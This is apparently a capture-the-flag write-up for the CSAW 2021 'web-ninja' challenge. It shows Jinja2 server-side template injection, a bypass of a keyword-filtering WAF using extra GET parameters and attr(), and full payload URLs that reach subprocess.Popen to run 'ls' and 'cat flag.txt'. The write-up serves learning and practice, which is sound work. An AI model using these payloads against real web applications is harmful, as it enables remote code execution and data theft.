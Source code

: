 # web-ninja

## Description

```
Hey guys come checkout this website i made to test my ninja-coding skills.

http://web.chal.csaw.io:5000
```

## Task Analysis
The link given in the description presents us with the following webpage where the only notable page element is a field for user input:

![webpage](/CSAW-2021/web-ninja/screenshots/the_site.PNG)

When input is submitted, the page displays "Hello " followed by whatever was typed into the submission field.

I confirmed that xss injection was possible. However, this was not helpful to me since the site would not present our malicious scripts to anyone but ourselves. Switching gears, I used Burp to find that the site was built using Python 2.7, and I noted that the challenge's name, "Ninja" could potentially be hinting at the "Jinja" framework. I submitted the following to check for a SSTI vulnerability:
```
{{}}
```
The "{{}}" was not rendered, indicating it had been interpreted as a template and that there was potential for an SSTI injection. 

I used the following to confirm what framework was being used:

```
{{'7'*7}}
```
Which rendered as:
```
Hello 7777777
```
This confirmed my suspicion that Jinja2 was the framework being used. 
After attempting to access the config object using {{config.items()}} I recieved:

```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```
I now knew that there was a WAF to bypass.

Our goals from here were to: 
1. Find a way to bypass the WAF.
2. Create a payload that establishes RCE and allows us to look for the flag, which I suspected was likely stored either in the config object or in the page's working directory.
3. Create a payload that reads the flag and profit.

## Solution

# WAF Bypass
I found that The WAF was designed to only check the contents of the "value" GET parameter. Extra paremters went unchecked, so blacklisted keywords could be included in them and then accessed as strings via the request.args object. These strings could then be passed to the [built-in Jinja filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.attr) ```attr()```. The documentation tells us that ```attr()``` takes a string as an argument to "Get an attribute of an object. foo|attr("bar") works like foo.bar just that always an attribute is returned and items are not looked up..."
Using these features I could bypass the filter using urls constructed with additional get parameters like the following:

```
http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()}}&class=__class__&bas=__base__&sub=__subclasses__
```

The above url returned a list of all the subclasses of the object type, meaning I could access any class loaded in the Python environment. I used a script to search this list for the subprocess.Popen class, and found it at index 258.

# Establishing RCE

I could now use the following url execute the "ls" command and achieve RCE:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27ls%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```

The above produced the following output:

![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

# Found flag
I now knew that the flag was located in the same directory as the site's application script. This meant I could access the flag with the same technique by invoking the "cat" command:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27cat flag.txt%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```
Which produced the following:
![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

I found the flag! - flag{m0mmy_s33_1m_4_r34l_n1nj4}
